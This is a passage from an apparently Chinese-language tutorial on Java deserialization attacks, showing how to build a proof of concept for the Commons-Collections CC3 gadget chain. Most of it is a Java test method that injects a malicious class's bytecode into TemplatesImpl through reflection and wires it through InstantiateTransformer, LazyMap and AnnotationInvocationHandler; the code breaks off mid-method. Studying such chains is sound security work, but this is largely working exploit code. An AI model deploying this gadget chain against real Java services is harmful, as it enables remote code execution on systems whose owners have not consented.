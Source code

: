 ### 9.2 PoC 构造

1. 使用 CC1 的 kick-off 时，需要注意的是 `AnnotationInvocationHandler` 传入到 `LazyMap.get()`，最终传入到 `transform(input)` 的 `input`，也就是反射所需要的字节码 class 是不可控的，因此还是需要 `ChainedTransformer` 和 `ConstantTransformer` 来强制控制传入的 class。

2. CC3 的 kick-off 和 sink 分别参考 CC1 和 CC2，所以 PoC 构造如下：

    ```java
    // cc 4.0，JDK 版本较低
    @Test
        public void testCC3() throws ClassNotFoundException, NoSuchMethodException, InvocationTargetException, InstantiationException, IllegalAccessException, NotFoundException, IOException, CannotCompileException, NoSuchFieldException {
            // 1. 读取恶意类 bytes[]
            ClassPool pool = ClassPool.getDefault();
            CtClass ctClass = pool.getCtClass("com.endlessshw.serialization.util.Evil");
            byte[] bytes = ctClass.toBytecode();
    
            // 2. 构造 sink
            TemplatesImpl templates = new TemplatesImpl();
            // 要求 1 - 注入恶意字节码
            Field bytecodesField = templates.getClass().getDeclaredField("_bytecodes");
            bytecodesField.setAccessible(true);
            bytecodesField.set(templates, new byte[][]{bytes});
            // 要求 2 - 保证 _name 不为 null
            Field nameField = templates.getClass().getDeclaredField("_name");
            nameField.setAccessible(true);
            nameField.set(templates, "EndlessShw");
    
            // 3. 构造 InstantiateTransformer 和 ChainedTransformer
            Transformer[] transformers = new Transformer[]{
                    new ConstantTransformer<>(TrAXFilter.class),
                    new InstantiateTransformer<>(new Class[]{Templates.class}, new Object[]{templates}),
            };
            ChainedTransformer transformedChain = new ChainedTransformer(transformers);
    
    
            // 2. 构造 LazyMap（同时也相当于创建被代理类）
            HashMap<Object, Object> map = new HashMap<>();
            LazyMap lazyMap = LazyMap.lazyMap(map, transformedChain);
    
            // 3. 把 AnnotationInvocationHandler 的构造函数搞出来
            // 通过反射，获取到 class 类对象
            Class<?> aIHClass = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
            // 通过 class 类对象获取 class 类对象的构造函数
            Constructor<?> aIHClassDeclaredConstructor = aIHClass.getDeclaredConstructor(Class.class, Map.class);
            // 取消其访问检查（即绕过 protected 和 private 关键字修饰，直接对其变量赋值），
            aIHClassDeclaredConstructor.setAccessible(true);
    
            // 4. 先搞出来一个调用处理器，这里第一个参数没有要求
            InvocationHandler invocationHandler = (InvocationHandler) aIHClassDeclaredConstructor.newInstance(Override.class, lazyMap);
    